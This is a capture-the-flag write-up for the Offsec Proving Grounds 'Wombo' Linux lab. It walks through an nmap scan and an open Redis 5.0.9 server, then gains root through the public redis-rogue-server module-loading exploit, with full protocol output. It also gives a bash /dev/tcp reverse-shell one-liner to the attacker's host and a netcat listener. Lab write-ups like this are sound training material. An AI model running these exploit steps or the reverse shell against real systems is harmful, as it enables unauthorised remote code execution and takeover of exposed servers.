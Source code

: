 ```yaml
---
title: "Proving grounds Practice: Wombo"
layout: post
date: 2023-10-21 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- PG-Practice
- RCE
- Redis
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```


## Nmap

```text
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
80/tcp    open  http       nginx 1.10.3
6379/tcp  open  redis      Redis key-value store 5.0.9
8080/tcp  open  http-proxy
27017/tcp open  mongod?
```

## 6379/tcp - open - redis - Redis key-value store 5.0.9

The redis server is vulnerable to [Remote code Execution](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce) vulnerability.

Connect to redis server to check if it is password protected or not.

```sh
naveenj@hackerspace:[09:32]~/proving_grounds/Wombo$ redis-cli -h 192.168.211.69
192.168.211.69:6379> module list
(empty array)
(0.53s)
192.168.211.69:6379> 
```

The server is not password protected, clone the [GitHub](https://github.com/n0b0dyCN/redis-rogue-server) exploit and follow below steps.

After cloning the repository direct to `/redis-rogue-server/RedisModulesSDK/exp` folder and run `sudo make`. The `exp.so` file will be created and copy the file to the folder where the python exploit code is exists.

## Exploitation

```sh
naveenj@hackerspace:[09:53]~/proving_grounds/Wombo/redis-rogue-server$ python redis-rogue-server.py --rhost 192.168.211.69 --rport 6379 --lhost 192.168.45.243 --lport 80 --exp=exp.so -v
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

[info] TARGET 192.168.211.69:6379
[info] SERVER 192.168.45.243:80
[info] Setting master...
[<-] b'*3\r\n$7\r\nSLAVEOF\r\n$14\r\n192.168.45.243\r\n$2\r\n80\r\n'
[->] b'+OK\r\n'
[info] Setting dbfilename...
[<-] b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$6\r\nexp.so\r\n'
[->] b'+OK\r\n'
[->] b'*1\r\n$4\r\nPING\r\n'
[<-] b'+PONG\r\n'
[->] b'*3\r\n$8\r\nREPLCONF\r\n$14\r\nlistening-port\r\n$4\r\n6379\r\n'
[<-] b'+OK\r\n'
[->] b'*5\r\n$8\r\nREPLCONF\r\n$4\r\ncapa\r\n$3\r\neof\r\n$4\r\ncapa\r\n$6\r\npsync2\r\n'
[<-] b'+OK\r\n'
[->] b'*3\r\n$5\r\nPSYNC\r\n$40\r\n73a8ee0c379f25d3a0d876642411d68a61500ca3\r\n$1\r\n1\r\n'
[<-] b'+FULLRESYNC ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ 1\r\n$47856\r\n\x7fELF\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00'......b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x11\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xc8\xb3\x00\x00\x00\x00\x00\x00\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\r\n'
[info] Loading module...
[<-] b'*3\r\n$6\r\nMODULE\r\n$4\r\nLOAD\r\n$8\r\n./exp.so\r\n'
[->] b'+OK\r\n'
[info] Temerory cleaning up...
[<-] b'*3\r\n$7\r\nSLAVEOF\r\n$2\r\nNO\r\n$3\r\nONE\r\n'
[->] b'+OK\r\n'
[<-] b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$8\r\ndump.rdb\r\n'
[->] b'+OK\r\n'
[<-] b'*2\r\n$11\r\nsystem.exec\r\n$11\r\nrm ./exp.so\r\n'
[->] b'$1\r\ne\r\n'
What do u want, [i]nteractive shell or [r]everse shell: i
[info] Interact mode start, enter "exit" to quit.
[<<] id;whoami;
[<-] b'*2\r\n$11\r\nsystem.exec\r\n$10\r\nid;whoami;\r\n'
[->] b'$45\r\n\x08uid=0(root) gid=0(root) groups=0(root)\nroot\n\r\n'
[>>]uid=0(root) gid=0(root) groups=0(root)
[>>] root
```

**Foothold Obtained**

## Reverse Shell

Bash reverse shell.

```sh
bash -c 'sh -i >& /dev/tcp/192.168.45.243/8080 0>&1';
```

Make sure the netcat listener is running.

```sh
veenj@hackerspace:[09:51]~/proving_grounds/Wombo/redis-rogue-server$ nc -lvnp 8080
listening on [any] 8080 ...
connect to [192.168.45.243] from (UNKNOWN) [192.168.211.69] 54064
sh: 0: can't access tty; job control turned off
# which python
/usr/bin/python
# python -c 'import pty; pty.spawn("/bin/bash")'
root@wombo:/# 
```

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).